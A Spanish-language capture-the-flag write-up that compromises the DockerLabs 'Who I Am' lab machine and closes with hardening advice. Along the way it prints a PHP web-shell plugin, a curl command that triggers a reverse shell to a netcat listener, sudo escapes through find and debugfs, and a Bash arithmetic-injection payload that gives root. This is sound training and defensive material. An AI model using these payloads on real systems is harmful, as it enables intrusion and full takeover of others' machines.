# Who I Am — DockerLabs

| | |
|---|---|
| **Plataforma** | DockerLabs |
| **Dificultad** | Fácil |
| **Sistema operativo** | Linux |
| **Fecha** | 26 de septiembre de 2026 |
| **Técnicas** | Directory Listing, Credential Exfiltration, Malicious Plugin Upload (Reverse Shell), Sudo Misconfiguration, Bash Arithmetic Injection |
| **Herramientas** | Nmap, Gobuster, Netcat, GTFOBins |

**Objetivo:** Reconocimiento, enumeración web, análisis de exposición de archivos confidenciales y auditoría de gestión de identidades en WordPress.

**IP objetivo:** `172.18.0.2`

---

## Resumen ejecutivo

Auditoría de seguridad sobre una máquina de DockerLabs que expone una
instalación de WordPress. Se identificó una falta severa de higiene de
seguridad en la gestión de entornos de desarrollo.

### Hallazgos críticos

1. **Exposición de respaldos de base de datos:** listado de directorios
   público que exponía un archivo comprimido corporativo (`.zip`).
2. **Credenciales en texto plano:** archivo residual histórico con
   contraseñas administrativas legibles, sin hash ni cifrado.
3. **Escalada absoluta de privilegios:** configuraciones laxas en las
   directivas `sudo` de múltiples usuarios, que permitieron el control
   completo de la infraestructura (`root`).

---

## 1. Reconocimiento y escaneo de red

Escaneo de puertos con `nmap`:

```bash
sudo nmap 172.18.0.2
```



### Análisis de la superficie web (HTTP)

El análisis reveló únicamente el **puerto 80/tcp (HTTP)** activo. Al
inspeccionar la IP en el navegador, se detectó una landing page
minimalista con el título "Who I am" y el botón "About us", que se
encontraba estructuralmente vacío de código útil o enlaces en el
backend.




---

## 2. Enumeración web dirigida (Gobuster)

Ante la ausencia de elementos interactivos, se aplicó fuerza bruta
sobre directorios con `gobuster`, con un diccionario de tamaño medio y
filtros multiextensión:

```bash
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,zip,rar,xml,py,rb,txt,js
```



### Rutas WordPress y anomalías identificadas

El mapeo de directorios expuso una infraestructura basada en el CMS
WordPress junto con una ruta anómala:

- `http://172.18.0.2/wp-content/`
- `http://172.18.0.2/wp-includes/`
- `http://172.18.0.2/wp-admin/`
- `http://172.18.0.2/wp-login.php?action=register`
- `http://172.18.0.2/backups/` — **ruta crítica**

---

## 3. Análisis de vectores de autenticación y WordPress

Se realizaron comprobaciones manuales en los formularios encontrados:

1. Al acceder a `/wp-content/`, el servidor devolvió una página en blanco.
2. Se localizaron los formularios interactivos de login y registro de WordPress.



### Prueba de inyección SQL (SQLi)

Se intentó evadir los paneles de autenticación inyectando payloads en
los campos de usuario y contraseña (ej: `admin' -- NoPass`). El
backend procesó las solicitudes de forma segura, indicando
explícitamente que las identidades no existían. Se descartó este
vector.

---

## 4. Exfiltración de respaldos e infiltración

### Directorio `/wp-includes/`

Al acceder a la ruta, se confirmó una configuración incorrecta que
permitía el listado libre de archivos (directory browsing), exponiendo
componentes del núcleo del CMS.



### Extracción del archivo confidencial en `/backups/`

En la ruta `http://172.18.0.2/backups/` se localizó el archivo
indexado corporativo `databaseback2may.zip`.



Al descargar y extraer localmente el volcado de la base de datos se
descubrieron las credenciales en texto plano del usuario técnico
`developer`.



### Acceso inicial e inyección de plugin malicioso

Con las credenciales obtenidas se inició sesión en la administración
de WordPress. Se verificó la existencia de dos administradores:
`developer` y `erik`.



Aprovechando los privilegios de administrador, se subió un archivo de
extensión de WordPress (`.php`) modificado para forzar una reverse
shell:

```php
<?php
/*
Plugin Name: CTF Shell
Description: Shell for the CTF lab.
Version: 1.0
*/
$cmd = 'cmd';
if (isset($_REQUEST[$cmd])) {
    executeCommand($_REQUEST[$cmd]);
} elseif (isset($_REQUEST['ip'])) {
    $ip = $_REQUEST['ip'];
    $port = isset($_REQUEST['port']) ? (int)$_REQUEST['port'] : 4444;
    // ... código de conexión reversa estabilizada ...
}
function executeCommand(string $command): void {
    system($command);
}
?>
```




Para activar la conexión a la máquina de Kali Linux escuchando en el
puerto `4444` mediante `nc -nlvp 4444`, se ejecutó el siguiente
comando `curl`:

```bash
curl --get --data-urlencode "ip=172.18.0.1" --data-urlencode "port=4444" "http://172.18.0.2/wp-content/plugins/ctf-shell/plugin.php"
```




### Estabilización de la shell

Una vez obtenida la shell, se ejecutaron los comandos estándar de
estabilización de TTY:

```bash
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
```



---

## 5. Escalada de privilegios interna

Una vez consolidado el acceso inicial como el usuario del servidor web
(`www-data`), se auditaron los permisos internos del sistema operativo
para elevar privilegios. La escalada se logró de forma secuencial
mediante un pivoteo entre tres usuarios distintos, debido a
configuraciones laxas en la directiva `sudo`.

### Paso 1: pivoteo de `www-data` a `rafa` (explotación de `/usr/bin/find`)

Al ejecutar `sudo -l` desde la shell de `www-data`, se detectó que el
sistema permitía ejecutar el binario `/usr/bin/find` bajo el contexto
del usuario `rafa` sin requerir contraseña (`NOPASSWD`).



Consultando GTFOBins, se identificó que `find` puede ejecutar comandos
del sistema operativo a través del parámetro `-exec`.



```bash
sudo -u rafa /usr/bin/find . -exec /bin/bash \; -quit
```

La shell heredó el contexto de seguridad del propietario asignado. Se
validó el pivoteo con `whoami`, obteniendo la identidad del usuario
`rafa`.



### Paso 2: pivoteo de `rafa` a `ruben` (explotación de `/usr/sbin/debugfs`)

Se repitió la auditoría con `sudo -l`. El usuario `rafa` tenía
autorización para ejecutar el depurador de sistemas de archivos
`/usr/sbin/debugfs` como el usuario `ruben`, sin clave.




```bash
sudo -u ruben /usr/sbin/debugfs
```

Dentro de la interfaz interactiva de `debugfs`, se usó el operador de
escape `!` para invocar un intérprete de comandos directo:

```
!/bin/bash
```

Al verificar con `whoami`, se confirmó la elevación al usuario `ruben`.



### Paso 3: escalada absoluta de `ruben` a `root` (bypass del script `penguin.sh`)

Con `sudo -l` como `ruben`, se reveló la directiva final:
`(ALL) NOPASSWD: /bin/bash /opt/penguin.sh`.



#### Análisis del código fuente

Se inspeccionó el script con `cat /opt/penguin.sh`:



```bash
#!/bin/bash
read -rp "Enter guess: " num
if [[ $num -eq 42 ]]
then
    echo "Correct"
else
    echo "Wrong"
fi
```

#### Vulnerabilidad identificada: inyección aritmética en Bash

El script usa una evaluación de doble corchete (`[[ $num -eq 42 ]]`).
En Bash, cuando se realiza una comparación aritmética (`-eq`) y la
variable contiene expresiones complejas, el intérprete las evalúa
recursivamente, lo que permite inyectar y ejecutar comandos arbitrarios
si se manipulan subshells dentro de la expresión.

#### Ejecución del payload

```bash
sudo /bin/bash /opt/penguin.sh
```

Cuando el programa solicitó el número (`Enter guess: `), se introdujo:

```bash
a[$(/bin/bash >&2)]+42
```

**Mecanismo del impacto:** el intérprete intentó procesar la variable
`num`. Al encontrar la estructura `$()`, detuvo la comparación
matemática para ejecutar el comando embebido `/bin/bash` con los
privilegios heredados de `sudo` (es decir, como `root`). Redirigir la
salida estándar a la salida de errores (`>&2`) permitió interactuar
con la nueva consola antes de que el script original terminara.

Al ejecutar `whoami` dentro de esta nueva shell, el sistema devolvió
`root`, consolidando el compromiso total de la máquina.



---

## Cómo se previene

### 1. Desactivación global del directory listing

**Objetivo:** impedir que usuarios externos listen el contenido de
carpetas sensibles como `/backups/` o `/wp-includes/`.

- **En Apache:** en el `.htaccess` de la raíz del sitio, o en el
  archivo de configuración principal:

  ```apache
  Options -Indexes
  ```

- **En Nginx:** dentro del bloque `server` o `location`, la directiva
  `autoindex` debe estar apagada:

  ```nginx
  autoindex off;
  ```

### 2. No almacenar respaldos con credenciales en texto plano

Los respaldos de base de datos nunca deberían quedar accesibles desde
rutas web públicas, y las contraseñas que contienen deben estar
hasheadas, no en texto plano.

### 3. Restringir las directivas de sudo

Cada regla `NOPASSWD` debe revisarse contra GTFOBins antes de
aplicarse. Binarios como `find`, `debugfs`, o cualquier intérprete
interactivo, nunca deberían asignarse sin restricciones a usuarios de
bajo privilegio.

### 4. Validar la lógica de scripts con privilegios elevados

Evitar evaluaciones aritméticas (`[[ ]]` con `-eq`) sobre entrada de
usuario no saneada en scripts ejecutados con `sudo`. Validar que la
entrada sea estrictamente numérica antes de compararla.

---

## Lecciones aprendidas

> Lo que más me costó fue entender el funcionamiento del plugin
malicioso y de la reverse shell, así como la resolución de
`penguin.sh`.

> Antes de llegar al vector correcto, probé inyección SQL en el
formulario de login, sin éxito. También revisé el código fuente de la
página inicial con las herramientas de desarrollador (F12) y exploré
a mano los archivos dentro de los directorios ocultos encontrados con
gobuster (`/wp-content/` y `/wp-includes/`), buscando algún dato o
usuario expuesto. Esa exploración manual me llevó bastante tiempo y no
fue lo que terminó dando acceso.

> Tuve que investigar sobre el funcionamiento de plugins de WordPress
para poder subir uno funcional como reverse shell, y sobre la
inyección aritmética en Bash para entender por qué `penguin.sh` era
explotable.

> Si repitiera la máquina hoy, armaría el plugin malicioso más rápido, y
no perdería tiempo revisando archivo por archivo dentro de
`/wp-content/` y `/wp-includes/`: iría directo a buscar rutas
expuestas de mayor impacto, como terminó siendo `/backups/`.

---

## Conclusión final

La evaluación técnica sobre el entorno "Who I am" demostró cómo la
falta de higiene en entornos de desarrollo y preproducción representa
el mayor peligro para la infraestructura corporativa. No fue necesario
explotar una vulnerabilidad compleja de código (0-day): se capitalizó
una concatenación de descuidos administrativos — listado de
directorios permisivo, contraseñas guardadas en un `.zip` sin
hashear, y permisos de `sudo` innecesariamente laxos en binarios
peligrosos como `find` y `debugfs`.

---

## Referencias

- [GTFOBins](https://gtfobins.github.io/)
- [DockerLabs](https://dockerlabs.es/)
